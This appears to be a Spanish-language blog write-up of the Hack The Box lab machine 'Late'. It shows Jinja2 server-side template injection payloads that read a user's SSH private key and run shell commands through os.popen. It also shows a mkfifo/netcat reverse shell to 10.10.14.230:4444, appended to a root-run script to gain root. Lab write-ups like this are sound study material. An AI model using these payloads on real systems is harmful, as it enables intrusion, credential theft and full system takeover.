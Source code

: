 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB. Aunque si batalle mucho a la hora del SSTI, tuve que investigar demasiado a fondo sobre esta vulnerabilidad, pero al final persistiendo en el intento lo logre.

## [](#header-2)<a href="#desarrollo">Desarrollo</a>
Despues del tipico escaneo con nmap, vimos que solamente teniamos abiertos los puertos 22 de ssh y 80 del servicio tcp, que correspondia a una pagina web. 
Navegando dentro del codigo de la pagina, encontramos un enlace a convertir tus propias imagenes con texto a texto e icimos la prueba para conocer mas sobre el motor al que le correspondia al procesador de flsk. Con la siguiente cadena:
```py
{%raw %}
{{%7*7%}}
${7*7}
<%=7*7%> 
${{%7*7%}} 
#{7*7}
{% endraw %}
```

Solamente tenemos que anotarlo en un bloc de notas y tomarle una captura de pantalla, para despues subirlo en el images.Late.htb. Lo que nos daba como resultado en un result.txt, era una compilacion de codigo. El cual representaba una vulnerabilidad en SSTI. La cual viene a gran profundidad en <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">mi pagina favorita</a> y resulta que el motor que esta usando flask es jinja2. Batalle mucho a la hora de tomar las capturas de pantalla, recortar la imagen o simplemente encontrar las variables que se encontraban dentro del programa. El blog que estaba siguiendo no explicaba con claridad el comando que utilizo para llegar a los siguientes pasos, pero me tome la tarea de corregir errores agregando guines bajos '_' en las partes que no reconocia el script que subia. Los ejemplos de las imagenes que llegue a usar son:


Para poder ejecutar comandos de cmd:

![Os cmd](/assets/images/late/os_cmd_request.png)

Para solicitar la flag de usuraio:

![User flag](/assets/images/late/flag_request.png)

Respuesta de la captura anterior:

![Flag result](/assets/images/late/flag_txt.png)

Como en otras maquinas, podremos entrar con el usuario a traves del servicio de ssh, solamente tendremos que copiarnos el /home/svc_acc/id_rsa ya que es posible leerlo desde el servicio de jinja.
Podemos usar el script siguiente:
```py
{% raw %}
{{% get_flashed_messages.__globals__.__builtins___.open("/home/svc_acc/.ssh/id_rsa").read() %}}
{% endraw %}
```

Aqui presente problemas al generar el archivo `authorized_keys` por que como no se muestra en el resultado la correcta ejecusion del comando, tuve que ejecutarlo varias veces. Recomiendo que en el script que se utilice, contenga algo parecido a:

```py
{% raw %}
{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("cp /home/svc_acc/.ssh/id_rsa /home/svc_acc/.ssh/authorized_keys").read() %}}

{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("chmod 666 /home/svc_acc/.ssh/authorized_keys").read() %}}

{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("ls").read() %}}
{% endraw %}
```

Con esto, no podremos ejecutar `ls -l` para ver que los permisos se hayan aplicado, pero al menos podremos ver que el archivo ha sido copiado.

Una vez teniendo la shell, y ejecutar el LinePeas, nos fuimos por lo mas sencillo para escalar privilegios que era en el archivo /usr/local/sbin/ssh-alert.sh que probablemente esta corriendo en todo momento, se puede utilizar pspy para echar un vistaso para ver que esta ocurriendo. La herramienta actualizada se encuentra en <a href="https://github.com/DominicBreuker/pspy">GIT</a> y observaremos con esta herramienta que el servicio lo esta utilizando el usuario con el UID=0, el cual es el perteneciente a root. Asi que procederemos a editar el archivo e inyectarle un script sencillo.

Para inyectar el codigo, primero hay que crear el archivo /tmp/append.txt, el cual dentro tendra:

```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.230 4444 >/tmp/f
```

y a continuacion solamente tendremos que ejecutar el comando:

```s
cat /tmp/append.txt >> /usr/local/sbin/ssh-alert.sh
```

Hacemos un append de lo anterior en el archivo ssh-alert.sh, preparamos el reverse shell para capturarlo desde nuestra kali como normalmente lo hacemos con el nc -nlvp 4444, y finalmente obtenemos otra shell con un nuevo usuario que esta vez sera root. Para que se ejecute, bastara con cerrar la sesion con ssh que teniamos e inmediatamente iniciara la coneccion con netcat desde nuestra kali.

![User flag](/assets/images/late/root_access.png)

![Late powned](/assets/images/late/Late_pwnd.png)
